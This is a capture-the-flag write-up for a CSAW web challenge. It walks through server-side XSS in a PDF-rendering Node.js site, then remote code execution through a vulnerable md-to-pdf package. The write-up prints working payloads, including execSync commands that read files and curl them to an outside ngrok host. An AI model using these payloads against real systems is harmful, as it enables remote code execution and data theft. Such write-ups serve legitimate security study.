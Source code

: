 ```yaml
---
Category: WEB | 148 pts - 204 Solves
---
```


# My little website

> Description: I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :)...
> [http://web.chal.csaw.io:5013](http://web.chal.csaw.io:5013)

The challenge comes as a pdf rendering website, we can inject markdown or maybe...javascript.\
First thing, check for XSS:

```javascript
<script> document.write(window.location) </script>
```

<figure><img src="./assets/1.png" alt=""><figcaption></figcaption></figure>

Ok, vulnerable, actually, it's Server-Side XSS, as we're not injecting code in the webpage (client-side), instead we executing code on the server-side of the application. \
Let's try something more interesting:

```javascript
<script>document.write('<iframe src="/"></iframe>')</script>
```

<figure><img src="/assets/2.png" alt=""><figcaption></figcaption></figure>

We're inside /chal directory, node.js webapp, but index.js seems definitely something interesting for us, let's try to read it:

```javascript
<script>
fetch('index.js')
  .then(response => response.text())
  .then(text => document.write(text))
</script>
```

<figure><img src="/assets/3.png" alt=""><figcaption></figcaption></figure>

That's a lot of info, but what's most important is the `mdToPdf` package, with a quick search we'll know that we can do RCE: [https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880).

```javascript
---js
require('child_process').execSync('ls -la > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="/assets/4.png" alt=""><figcaption></figcaption></figure>

No flag here, let's try to look one directory above:

```javascript
---js
require('child_process').execSync('ls -la .. > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="/assets/5.png" alt=""><figcaption></figcaption></figure>

Here we go, read flag.txt:

```javascript
---js
require('child_process').execSync('curl -d @../flag.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="/assets/6.png" alt=""><figcaption></figcaption></figure>

> CTF{pdf\_c0nt1nu3s\_70\_5uCK}
